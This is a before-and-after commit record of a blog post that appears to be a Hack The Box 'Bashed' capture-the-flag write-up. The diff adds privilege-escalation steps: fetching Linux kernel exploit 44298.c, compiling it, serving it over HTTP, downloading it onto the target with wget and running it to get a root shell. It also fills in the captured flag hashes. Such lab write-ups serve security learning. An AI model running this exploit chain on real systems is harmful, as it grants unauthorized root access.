

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-22-bashed.md, in a window 1280 px wide and 1400 px high, scrolled down 4010 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-22-bashed.md
+++ b/_posts/2020-07-22-bashed.md
@@ -190,9 +190,48 @@ So it's been release more thant two years ago, there migth be some local privile
 
 ![Searchsploit Ubuntu](/assets/imgs/bashed/searchsploit.PNG)
 
+Download the exploit :
 
+```bash
+searchsploit -m linux/local/44298.c
+```
 
+Going throught the code, I didn't found any compilation instruction, so I just compiled it with this basic command :
 
+```bash
+gcc 44298.c -o exploit
+```
+
+Upload the compiled exploit on the machine :
+
+```bash
+python -m SimpleHTTPServer
+```
+
+```bash
+wget http://10.10.14.10:8000/exploit
+```
+
+Give the exploit execution rights :
+
+```bash
+chmod +x exploit
+```
+
+Then run it :
+
+```bash
+scriptmanager@bashed:/tmp$ ./exploit
+./exploit
+task_struct = ffff88003775d400
+uidptr = ffff88003b7c0f04
+spawning root shell
+root@bashed:/tmp# whoami
+whoami
+root
+```
+
+And voila, I'm root ! Now go read the flags.
 
 ## Flags
 
@@ -201,11 +240,15 @@ So it's been release more thant two years ago, there migth be some local privile
 ### User.txt
 
 ```bash
-
+root@bashed:/home/arrexel# cat user.txt
+cat user.txt
+2c281f318555dbc1b856957c7147bfc1
 ```
 
 ### Root.txt
 
 ```bash
-
+root@bashed:/root# cat root.txt
+cat root.txt
+cc4f0afe3a1026d402ba10329674a8e2
 ```
````
